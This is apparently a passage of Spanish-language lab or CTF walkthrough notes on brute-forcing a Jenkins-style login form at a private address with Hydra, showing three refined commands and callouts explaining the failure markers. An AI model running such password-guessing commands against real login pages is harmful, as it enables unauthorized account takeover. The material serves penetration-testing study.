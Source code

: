         ---
        
        `hydra -l geralt -P dic2.txt 10.0.3.37 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/login:"`  
        
        ![image.png](./imagenes/image%20199.png)
        
        <aside>
        👉
        
        **`c=/login`**: Posible condición de redirección. Si después del intento el servidor sigue en `/login`, puede indicar que la autenticación **falló**.
        
        </aside>
        
        ---
        
        `hydra -l geralt -P dic2.txt 10.0.3.37 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/login:Invalid username or password”`
        
        ![image.png](./imagenes/image%20200.png)
        
        <aside>
        👉
        
        **`Invalid username or password`**: Mensaje clave. Si el servidor devuelve esta frase, significa que la autenticación **no tuvo éxito**, y Hydra la usa como referencia
        
        </aside>
        
        ---
        
        `hydra -l geralt -P dic2.txt 10.0.3.37 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=:c=/login:Invalid username or password" -f -V`
        
        ![image.png](./imagenes/image%20201.png)
        
